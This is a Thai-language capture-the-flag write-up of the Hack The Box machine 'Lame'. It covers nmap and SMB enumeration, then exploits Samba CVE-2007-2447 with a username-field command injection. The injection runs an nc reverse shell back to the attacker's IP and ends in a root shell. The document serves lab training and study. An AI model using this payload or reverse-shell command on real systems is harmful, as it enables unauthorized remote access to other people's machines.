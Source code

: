 # [](#header-1)Info card
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHvl49IgHnk-WKCt0u6%2F-MHvlnxDfRBJsqRVouf_%2Fimage.png?alt=media&token=992ad801-c46c-4ffb-9e02-1a2cab97283a)

# [](#header-1)Enumeration
```
nmap -sC -sV -Pn -oA  nmap/Lame_fullscan 10.10.10.3
```

## [](#header-2)Nmap scan result
```
Nmap scan report for 10.10.10.3
Host is up (0.030s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Por lists:
*   <b>Port 21</b> : เป็น FTP protocol โดยจากในผลการแสกน Nmap เราจะเห็นได้ว่าเป็น version  vsftpd 2.3.4 โดยเราจะเห็นว่ามันสามารถเข้าสู่ระบบแบบ anonymous ได้
*   <b>Port 22</b> : เป็น secure shell โดยมี version เป็น OpenSSH 4.7p1
*   <b>Port 139</b> กับ 445 : เป็น SMB Protocol เอาไว้สำหรับแชร์ไฟล์ต่างๆโดย

## [](#header-2)UDP Enumeration scan
```
nmap -sU -O -p- -oA nmap/udp 10.10.10.3
```

Nmap UDP scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).
Not shown: 65531 open|filtered ports
PORT     STATE  SERVICE
22/udp   closed ssh
139/udp  closed netbios-ssn
445/udp  closed microsoft-ds
3632/udp closed distcc
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
```

## [](#header-2)FTP (Port 21) Enumeration
```
ls /usr/share/nmap/scripts/ftp*
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHubWdy9-hoopvsWogz%2Fimage.png?alt=media&token=adf076b2-212c-4d2c-b9a8-b1e7504f11ec)

หลังจากนั้นลองรันคำสั่งไปที่ Port 21 ดูเพื่อเช็คว่ามันมีช่องโหว่หรือไม่

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHuc6Zl1Cxxj5SXtv9K%2Fimage.png?alt=media&token=6331cc41-6f29-49ef-bd3c-8bf7727b4da0)

จากผลของ Nmap สรุปคือไม่มี ช่องโหว่ทำไรต่อไม่ได้แล้วงั้นเราจะไปดูกันที่ Protocol อื่นกันต่อ

## [](#header-2)SSH (Port 22) Enumeration
```
ls /usr/share/nmap/scripts/ssh*
```

## [](#header-2)SMB (Port 139, 445) Enumeration

เราจะใช้ SMB client ในการเข้าถึง SMB Server โดยเราจะใช้คำสั่งด้านล่างดังต่อไปนี้
```
smbclient -L 10.10.10.3
```

* <b>-L</b> : แสดงบริการที่มีอยู่บนเซิฟเวอร์ 

แต่หลังจากที่ลองรันไปก็พข้อความ Error 
```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

วิธีแก้คือไปแก้ไข config ใน <b>smb.conf</b>
```
sudo gedit /etc/samba/smb.conf
```

หลังจากนั้นให้เราเพิ่ม  client max protocol = NT1  กับ client min protocol = NT1 เข้าไปในส่วน [global]

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuw_VCFpGa87iXaJ6c%2Fimage.png?alt=media&token=ffaba264-f49a-4467-874f-95edd4951625)

หรืออาจจะใช้คำสั่งนี้แทนก็ได้ 

```
smbclient -L //10.10.10.3/ --option='client min protocol=NT1'
```
จากนั้นผลลัพธ์ที่ได้จะออกมาลักษณะนี้

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuxEorqxMaV-NDsEIg%2Fimage.png?alt=media&token=5c34c0a6-ff4e-485e-96be-90f620822eab)

เราสามารถตรวจสอบ permission ของเราได้โดยใช้คำสั่งนี้ 
```
smbmap -H 10.10.10.3
```

ผลลัพธ์ที่ได้
```
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

จะเห็นว่าในโฟลเดอร์ tmp เรามีสิทธิ์ที่จะ READ กับ WRITE ได้

## [](#header-2)distcc v1 (Port 3632) Enumeration
```
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

Nmap scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.029s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687
```

# [](#header-1)Exploitation

## [](#header-2)Method 1 SMB using username field vuln

โดยหลังจากลองค้นหาข้อมูลดูก็พบว่ามันมีช่องโหว่จาก [CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447/) ซึ่งแน่นอนว่ามันมี Metasploit module อยู่แต่ถ้าเป็นการสอบ OSCP เราจะสามารถใช้ Metasploit ได้แค่ครั้งเดียวในการสอบเท่านั้นเพราะอย่างนั้นจึงควรหลีกเลี่ยงการใช้ให้มากที่สุดเท่าที่จะทำได้

ในส่วนของ PoC ของช่องโหว่นี้หากเราลองดูจาก source code
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvBNRsWgIb0dqmGkfY%2Fimage.png?alt=media&token=8202355a-ddd9-47ca-8da9-10ac1b1f58ea)

จะเห็นว่าช่องโหว่นี้เกิดจาก username มีการรับ metacharacter ซึ่งในการที่รับ input เข้ามานั้นหมายความว่าเราสามารถป้อนอินพุตอะไรก็ได้ (arbitary commands) โดยมันจะทำการรันคำสั่งอะไรก็ได้ที่ผู้ใช้ป้อนเข้าไปโดยเราจะใช้ประโยชน์จากจุดนี้ในการทำ <b>reverse shell</b>

## [](#header-2)Reverse shell using nc
เราจะทำการเปิด port 4444 ในเครื่องของเราให้มันรอรับการเชื่อมต่อ จากเครื่องเป้าหมายโดยใช้คำสั่งนี้
```
nc -nlvp 4444
```

หลังจากนั้นเราจะใช้ smbclient เพื่อเชื่อมต่อไปที่โฟลเดอร์ <b>tmp</b> เพราะเรามีสิทธิในการ READ,WRITE ได้โดยใช้

### [](#header-3)Login to SMB client
```
smbclient //10.10.10.3/tmp
```

หลังจากที่เราเข้ามาแล้วมาแล้วตรงส่วนของ password เราไม่ต้องกรอกอะไร enter ได้เลยเพราะเนื่องจากเราเข้าใช้งานในฐานะของ <b>anonymous user</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvSnuNYZoEUguZ6Leu%2Fimage.png?alt=media&token=eda01e16-d903-42c0-bcea-c88fc752dfc1)

## [](#header-2)Got Root
หลังจากนั้นเราจะเอา payload ที่ได้จาก PoC ด้านบนมาใช้เพื่อ excute command ให้มัน reverse shell มาที่เครื่องของเราโดยใช้คำสั่ง

```
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvT9MKtBevt2RJT3ce%2Fimage.png?alt=media&token=df715f08-5261-4bb6-bd8a-9059b8c786ad)

หลังจากนั้นกลับมาดูที่ nc ที่เราเปิด port เอาไว้เราจะเห็นว่ามีการเชื่อมต่อเข้ามาจากเครื่องของเป้าหมายเรียบร้อยแล้วด้วยสิทธิ์ของ <b>root</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvU1MqwpM2leeAgjOi%2Fimage.png?alt=media&token=51d9d02d-06bb-4ac5-99fa-005c0d878c94)

